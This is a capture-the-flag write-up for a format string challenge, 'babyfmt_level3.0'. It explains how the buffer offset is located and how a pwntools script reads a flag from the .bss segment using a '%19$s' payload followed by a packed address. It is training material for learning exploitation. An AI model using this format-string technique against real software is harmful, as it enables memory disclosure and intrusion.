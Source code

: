 # Format String Exploits 3.0

Running the provided executable file, we are tasked to leak the flag hidden inside the `.bss` segment of the file with the given address. 

First, we load the library and files used then start the process.

```python
from pwn import *

elf = context.binary = ELF("/challenge/babyfmt_level3.0")

io = process()
```

Then we parse the given address

```python
io.recvuntil(b'you want is 0x')
bss_address = p64(int(io.recv(6), 16))
```

Since we are given the address, we can pass the address value into the stack, then read the string pointed using `%n$s`. Using the `%p %p %p ... %p`, we found the buffer is situated in `%18$p`.

Now, since the address starts with `\x00`, we must put the format exploit before the string to prevent null-terminated input (since `printf` prints until `\x00` is found). So, we want the payload to be

```txt
  0011223344556677
|                  | ...
| 0000000000400000 | 19 (.bss address leak)
| % 1 9 $ s . . .  | 18 (format string)
```

Final payload:

```python
from pwn import *

elf = context.binary = ELF("/challenge/babyfmt_level3.0")

io = process()

print("===== STARTING EXPLOIT =====")

io.recvuntil(b'you want is 0x')
bss_address = p64(int(io.recv(6), 16))

payload = b'%19$s||' + bss_address

io.sendline(payload)

io.recvuntil(b'data!\n\n')

print(f'Flag: {io.recvline(False)}')
```

Flag:

![[Format String Exploits/images/Level3.0.png]]